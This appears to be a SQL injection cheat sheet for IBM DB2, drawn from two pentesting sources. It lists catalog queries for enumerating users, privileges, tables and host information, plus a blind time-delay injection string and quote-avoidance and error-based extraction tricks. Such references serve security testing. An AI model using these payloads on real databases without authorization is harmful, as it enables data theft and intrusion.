 # SQLi - DB2 (IBM)

## Pentest Monkey DB2 SQL Injection Cheat Sheet

- http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet

| Enumerate    | Command                 |
|--------------|-------------------------|
|Version|	`select versionnumber, version_timestamp from sysibm.sysversions;`|
|Comments|	`select blah from foo; -- comment like this`|
|Current User|	`select user from sysibm.sysdummy1;`<br> `select session_user from sysibm.sysdummy1;` <br>`select system_user from sysibm.sysdummy1;`|
|List Users|	N/A (I think DB2 uses OS-level user accounts for authentication.)<br>	Database authorities (like roles, I think) can be listed like this:	`select grantee from syscat.dbauth;`|
|List Password Hashes|	N/A (I think DB2 uses OS-level user accounts for authentication.)|
|List Privileges|	`select * from syscat.tabauth;` — privs on tables<br>	`select * from syscat.dbauth where grantee = current user;`<br>	`select * from syscat.tabauth where grantee = current user;`<br>	`select * from SYSIBM.SYSUSERAUTH` – List db2 system privilegies|
|List DBA Accounts|	`select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = ‘Y’` or `SYSADMAUTH = ‘G’`|
|Current Database|	`select current server from sysibm.sysdummy1;`|
|List Databases	|`SELECT schemaname FROM syscat.schemata;`|
|List Columns|	`select name, tbname, coltype from sysibm.syscolumns;`|
|List Tables|	`select name from sysibm.systables;`|
|Find Tables From Column Name|	`select tbname from sysibm.syscolumns where name=’username’`|
|Select Nth Row|	`select name from (SELECT name FROM sysibm.systables order by name fetch first N+M-1 rows only) sq order by name desc fetch first N rows only;`|
|Select Nth Char|	`SELECT SUBSTR(‘abc’,2,1) FROM sysibm.sysdummy1;`  — returns b|
|Bitwise AND|	This page seems to indicate that DB2 has no support for bitwise operators! (404)|
|ASCII Value -> Char|	`select chr(65) from sysibm.sysdummy1;` — returns ‘A’|
|Char -> ASCII Value|	`select ascii(‘A’) from sysibm.sysdummy1;` — returns 65|
|Casting|	`SELECT cast(’123′ as integer) FROM sysibm.sysdummy1;`<br>`SELECT cast(1 as char) FROM sysibm.sysdummy1;`|
|String Concatenation|	`SELECT ‘a’ concat ‘b’ concat ‘c’ FROM sysibm.sysdummy1;` — returns ‘abc’<br>	`select ‘a’ || ‘b’ from sysibm.sysdummy1;` — returns ‘ab’|

## Security Et Alii

- https://securityetalii.es/2012/05/20/db2-sql-injection-cheat-sheet/

`*` indicates different from PentestMonkey (identical items have been removed from the table below)

| Enumerate    | Command                 |
|--------------|-------------------------|
|Version`*` | `select service_level from table(sysproc.env_get_inst_info()) as instanceinfo`<br>`select getvariable(‘sysibm.version’) from sysibm.sysdummy1` — (v8+)<br>`select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo`<br>`select service_level,bld_level from sysibmadm.env_inst_info`|
|List Users`*` | DB2 uses OS accounts. Those with DB2 access can be retrieved with:<br>`select distinct(authid) from sysibmadm.privileges` — priv required<br>`select grantee from syscat.dbauth` — incomplete results<br>`select distinct(definer) from syscat.schemata` — more accurate<br>`select distinct(grantee) from sysibm.systabauth` — same as previous|
|List DBA Accounts`*`|`select distinct(grantee) from sysibm.systabauth where CONTROLAUTH=’Y’`|
|List Databases`*`|`select distinct(table_catalog) from sysibm.tables`|
|List Columns`*` | `select name, tbname, coltype from sysibm.syscolumns` — also valid syscat and sysstat|
|Select Nth Row`*`|`select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only`|
|Bitwise AND/OR/NOT/XOR`*`|`select bitand(1,0) from sysibm.sysdummy1` — returns 0. Also available bitandnot, bitor, bitxor, bitnot|
|IF Statement`*`| Seems only allowed in stored procedures. Use case logic instead.|
|Case statement`*` | `select CASE WHEN (1=1) THEN ‘AAAAAAAAAA’ ELSE ‘BBBBBBBBBB’ END from sysibm.sysdummy1` |
|Avoiding Quotes`*` | `SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1` — returns “ADRI”. Works without select too |
|Time Delay* | `' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68` — If user starts with ascii 68 ('D'), the heavy query will be executed, delaying the response. However, if user doesn’t start with ascii 68, the heavy query won’t execute and thus the response will be faster. |
|Serialize to XML (for error based)* | `select xmlagg(xmlrow(table_schema)) from sysibm.tables` — returns all in one xml-formatted string<br>`select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables)` — Same but without repeated elements<br> `select xml2clob(xmelement(name t, table_schema)) from sysibm.tables` — returns all in one xml-formatted string (v8). May need `CAST(xml2clob(… AS varchar(500))` to display the result.|
|Command Execution`*`|Only allowed through procedures or UDFs|
|Local File Access`*`|I think this is only available through stored procedures or db2 tool.|
|Hostname/IP and OS Info`*`|`select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info` — requires priv|
|Location of DB Files`*`|`select * from sysibmadm.reg_variables where reg_var_name=’DB2PATH’` — requires priv|
|System Config`*`|`select dbpartitionnum, name, value from sysibmadm.dbcfg where name like ‘auto_%’` — Requires priv. Retrieve the automatic maintenance settings in the database configuration that are stored in memory for all database partitions.<br> `select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg` — Requires priv. Retrieve all the database configuration parameters values stored on disk for all database partitions.|
|Default System Databases`*`|What makes sense for DB2 is to know default System Schemas (and maybe tables): `SYSIBM/SYSCAT/SYSSTAT/SYSPUBLIC/SYSIBMADM/SYSTOOLS`|
